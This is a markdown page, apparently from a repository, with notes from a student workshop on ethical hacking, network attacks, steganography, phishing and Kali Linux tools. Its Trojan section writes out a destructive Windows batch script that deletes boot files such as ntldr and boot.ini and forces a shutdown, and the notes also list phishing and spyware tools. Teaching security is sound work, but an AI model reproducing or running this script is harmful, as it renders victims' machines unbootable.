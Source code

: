 # Workshop on Network Security and Cryptography

A workshop on Network Security was conducted by Mr. Karthik G, VSG Software Solutions.



## Objectives

* Understanding Hacking , Cyber Security Basics, Attacks
* Understanding jobs and techniques of an Ethical Hacker
* Understanding Virus, Worms and Trojans
* Learning about Steganography Technique
* Learning about Phishing
* Learning Basics of Kali Linux

# Notes

#### Ethical Hacking Techniques

* Scanning ports for vulnerabilities

* NTLDR is boot loader for windows
* Network Traffic Analysis: More traffic More content
* Evading Intrusion Detection and Prevention

#### Steganography Algorithm

* Concealing a file within another file
* S-Tools: Drag Image, Drag File to be hidden, give password, right-click and select reveal, right-click 
* https://www.cs.vu.nl/~ast/books/mos2/zebras.html

#### Phishing 

* Win HTTrack Website copier

#### Attacks

* Passive Attacks - Just accessing the data
  * Eaves Dropping Technique : Just Listening
  * Traffic Analysis
* Active Attacks - Access, Modify and Delete data
  * Denial of Service
  * Masquerade Attack - Sender Sends data, receiver receives modified data
  * Replay Attack -  Delays valid transaction or fraudulent retransmission 
  * Data Modification

#### Virus

* Simple bat virus 

#### Worm

* Simple bat Worms

#### Trojan

* @echo off
  attrib -r -s -h c:autoexec.bat
  del c:autoexec.bat
  attrib -r -s -h
  c:boot.ini
  del c:boot.ini
  attrib -r -s -h
  c:ntldr
  del c:ntldr
  attrib -r -s -h
  c:windowswin.ini
  del c:windowswin.ini
  @echo off
  msg * YOU [GOT ](http://www.abhicmptips.co.cc/search/label/virus%20coding)OWNED!!!
  shutdown -s -t 7 -c
  "A VIRUS IS TAKING OVER c:Drive
* http://hemendra-blackhathacker.blogspot.com/p/virus-codes.html

### Kali Linux

* Maltego :  Fetch Details about a website (IP,Hosting,Emails,NIC etc) 
* Wireshark
* HiddenEye - Phishing Tool
* Seeker - Spyware tool
* EtherApe - Network Analysis
* Red Hawk - Multi Hacking Tool
* Ezspoit - Payload Sending 
* Ghost Phishing - Create Fake Hotspot and get info by launching a payload
* dex2jar - Reverse Engineering

## Outcomes

Students were made to do the following:

* Learning about Jobs of an ethical hacker
* Using S-Tools to perform steganography 
* Creating a .bat virus, worms 
* Given a demo on Kali Linux